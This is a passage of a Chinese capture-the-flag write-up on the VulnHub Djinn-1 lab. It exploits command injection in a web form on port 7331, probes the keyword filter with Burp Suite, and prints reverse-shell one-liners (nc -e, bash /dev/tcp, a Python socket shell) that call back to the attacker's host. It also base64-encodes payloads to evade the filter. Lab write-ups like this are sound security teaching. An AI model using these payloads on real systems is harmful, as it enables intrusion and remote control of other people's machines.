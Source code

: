 扫描出两个目录`/wish`和`/genie`，访问`ip:7331/wish`如下：

![][8]

随便输入东西之后发现跳转到`ip:7331/genie?name=`后面接上执行的命令，猜测此处存在系统命令注入

## 0x02 网站身份 getshell

既然能执行系统命令，那就直接`nc`反弹一个`shell`吧

在`msf`中快速开启监听：`handler -H 192.168.1.11 -P 3333 -p cmd/unix/reverse_bash`

![][9]

在`ip:7331/wish`中输入`nc -t -e /bin/bash 192.168.1.11 3333`

结果跳转到`genie?name=Wrong+choice+of+words`，说明屏蔽了关键词

配合`burpsuite`来探测屏蔽的关键词

- 测试 ls 得到网站根目录的文件和目录如下(%0A 是回车的 URL 编码)
- app.py
- app.pyc
- static/
- templates/

![][10]

`ls -lah`也能正常运行，说明没有屏蔽空格

`whoami`能正常的到结果`www-data`

`uname -a`知道了这是台`Ubuntu`:

![][11]

`echo whoami`可以执行，于是尝试使用

```
bash -i >& /dev/tcp/192.168.1.11/3333 0>&1
```

- bash -i 表示产生一个 bash 的交互环境
- 0>&1 将标准输入域标准输出内容相结合，然后重定向给前面的标准输出内容

或者用`python`来反弹`shell`也可以：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.11",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

将上面的命令用`base64`加密然后在`burp`出输入以下命令：

```
echo 加密的内容 | base64 -d | bash
```


[1]: https://www.vulnhub.com/entry/djinn-1,397/
[2]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_210818.png
[3]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_212143.png
[4]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_212347.png
[5]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_214145.png
[6]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_213957.png
[7]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_215754.png
[8]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_220126.png
[9]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_220800.png
[10]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200227_221444.png
[11]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_105823.png
[12]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_114244.png
[13]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_112545.png
[14]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_114533.png
[15]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_114827.png
[16]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_115443.png
[17]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_115709.png
[18]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_115851.png
[19]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_120342.png
[20]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_120958.png
[21]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_143818.png
[22]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_144107.png
[23]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_144206.png
[24]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_144257.png
[25]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_144354.png
[26]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_145102.png
[27]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_145215.png
[28]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_150225.png
[29]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_150844.png
[30]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_163751.png
[31]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_163904.png
[32]: https://github.com/rocky/python-uncompyle6
[33]: https://github.com/wibiti/uncompyle2
[34]: https://img.soapffz.com/archives_img/2020/02/27/archives_20200228_165306.png
[35]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ
[36]: https://mp.weixin.qq.com/s/eYpX2BI7eriKyMQ3M--MTw
[37]: https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/